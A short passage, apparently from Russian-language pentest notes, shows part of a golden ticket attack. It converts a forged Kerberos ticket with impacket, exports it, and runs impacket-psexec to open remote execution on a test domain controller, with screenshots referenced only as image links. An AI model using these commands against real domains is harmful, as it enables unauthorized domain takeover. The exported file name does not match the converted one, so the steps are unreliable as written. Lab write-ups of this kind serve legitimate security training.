 ![](../../../Attachments/image_13_2.png)

`impacket-ticketConverter ticket.kirbi ticket.ccache`

![](../../../Attachments/image_14_2.png)

Теперь также экспортим билет и проверяем:

`export KRB5CCNAME=converted.ccache`

`impacket-psexec “test.local/goldenticket_user@dc_test.test.local” -k -no-pass`

![](../../../Attachments/image_15_2.png)
